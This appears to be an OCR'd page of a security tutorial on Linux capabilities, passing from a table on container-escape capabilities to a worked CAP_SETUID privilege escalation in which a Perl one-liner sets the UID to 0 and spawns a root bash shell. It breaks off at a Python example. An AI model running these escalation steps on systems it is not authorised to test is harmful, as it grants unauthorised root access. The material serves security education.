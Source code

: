 | CAP_SYS_ADMIN     | This means that you can mount/umount filesystems.                                                                  |
| CAP_SYS_PTRACE    | This means that you can escape the container by injecting a shellcode inside some process running inside the host. |
| CAP_SYS_MODULE    | This means that you can insert/remove kernel modules in/from the kernel of the host machine.                       |
| OTHERS.....       |                                                                                                                    |:


# Privilege Escalation via CAP_SETUID

The CAP_SETUID capability allows a process to set the user ID (UID) of a process. This is crucial for operations that require changing the effective user ID, real user ID, or saved set-user-ID of a process. Essentially, it enables a process to assume the identity of another user, which is typically necessary for tasks that require elevated privileges.

## Perl Example

Copy the python3 binary to our current working directory:

```shell
cp $(which perl) . 
```

Assign the `cap_setuid` capability:

```shell
sudo setcap cap_setuid+ep ./perl 
```

We can review the capability with the following:

```shell
getcap ./perl

# Output
./perl cap_setuid=ep
```

Run a bash with `uid` of `0` as shown in the variable `$uid = 0` which is the root UID, and bash with `exec("/bin/bash")`:

```shell
./perl -e 'my $uid = 0; $< = $uid; $> = $uid; exec("/bin/bash");'
```

This will result in root:

```sh
root@pwn:~# id
uid=0(root) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
```

## Python Example

We'll copy the python3 binary to our current working directory:
